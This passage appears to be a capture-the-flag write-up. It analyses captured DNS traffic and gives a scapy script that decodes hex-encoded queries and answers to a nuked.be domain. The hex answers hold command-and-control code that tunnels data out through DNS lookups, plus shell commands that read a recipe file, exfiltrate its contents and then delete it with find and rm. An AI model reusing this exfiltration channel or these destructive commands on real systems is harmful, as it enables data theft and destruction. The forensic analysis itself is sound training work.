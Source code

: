 ```
Answer: 7375622073657b245f3d706f703b6024642b74726965733d3120245f2e24752e246324775c40247660666f726561636828756e7061636b2228413630292a222c245f297d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220647b736520752022454e44222e24752e22454e44227d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220637b7365207520706f707d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220657b245f3d706f703b6d61707b6320245f7d73706c69742f5c6e2f3b26647d
Query: 3060547069917483.cmd.nuked.be.
Answer: 737562207a7b60247b647d66696c65732e247624775c402476607d
Query: 3060547069917483.cmd.nuked.be.
Answer: 65286066696e64202f202d747970652066202d6e616d6520227265636970792e74787422202d6578656320636174207b7d202b60293b
Query: 53656372657420496e6772656469656e742023313333373a20436c75622d.3060547069917483.cmd.nuked.be.
Query: 53656372657420496e6772656469656e742023313333373a20436c75622d.3060547069917483.cmd.nuked.be.
Query: 4d617465.3060547069917483.cmd.nuked.be.
Query: 4d617465.3060547069917483.cmd.nuked.be.
Query: 454e4433303630353437303639393137343833454e44.3060547069917483.cmd.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: 65286066696e64202f202d747970652066202d6e616d6520227265636970792e74787422202d6578656320726d207b7d202b60293b
Query: 454e4433303630353437303639393137343833454e44.3060547069917483.cmd.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: 6528606563686f2022596f7520676f74206e756b656422203e207e2f6e756b65642e74787460293b
...
```

We thus see some kind of registration and then using that registration number, it calls for commands.

With a good eye, you will notice that all answers and some parts of the query are in hexadecimal. Let us decode those answers.

```python
from scapy.all import *
from binascii import unhexlify
import re

pcap = PcapReader("insecure.pcap")
for packet in pcap:
    if packet[DNS].ancount > 0:
        if re.search('nuked.be.', packet[DNSQR].qname):
            for answer in packet[DNS].an:
                raw_data = answer.rdata
                try: # Crashes on IP addr
                    raw_data = unhexlify(raw_data)
                except TypeError:
                    pass
                print "Answer: %s" % raw_data
    else: # Query
        query = packet[DNSQR].qname
        if re.search('nuked.be.', query):
            prefix_match = re.match('([a-fA-F0-9]+)\.(\d+)\.cmd\.nuked\.be\.', query)
            if prefix_match:
                print "Query: %s.%s.nuked.be." % (unhexlify(prefix_match.group(1)), prefix_match.group(2))
            else:
                print "Query: %s" % query
```
